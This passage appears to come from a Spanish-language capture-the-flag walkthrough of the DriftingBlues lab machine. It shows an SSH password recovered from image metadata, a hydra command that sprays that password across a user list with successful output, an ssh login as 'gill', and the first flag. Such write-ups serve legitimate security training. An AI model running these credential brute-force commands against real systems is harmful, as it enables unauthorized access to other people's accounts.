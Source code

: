 ```bash
History Software Agent          : Adobe Photoshop CC 2018 (Windows), Adobe Photoshop CC 2018 (Windows)
History Changed                 : /
Text Layer Name                 : ssh password is 59583hello of course it is lowercase maybe not
Text Layer Text                 : ssh password is 59583hello of course it is lowercase maybe not :)
Document Ancestors              : adobe:docid:photoshop:871a8adf-5521-894c-8a18-2b27c91a893b
Image Size                      : 300x3
```

Nos dice que la contraseña de ssh es `59583hello`, procedemos a usar hydra para fuerza bruta sobre todos los usuarios.

```bash
❯ hydra -L users.txt -p 59583hello 10.11.12.35 ssh -t 10
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-28 21:27:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.11.12.35:22/
[22][ssh] host: 10.11.12.35   login: gill   password: 59583hello
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-28 21:27:05
```

Dicha contraseña corresponde al usuario `gill`, nos conectamos por `ssh`.

```bash
❯ ssh gill@10.11.12.35
gill@10.11.12.35's password:
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gill@driftingblues:~$
```

## Escalación de privilegios

---

Listamos la Flag 1.

```bash
gill@driftingblues:~$ cat user.txt
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
```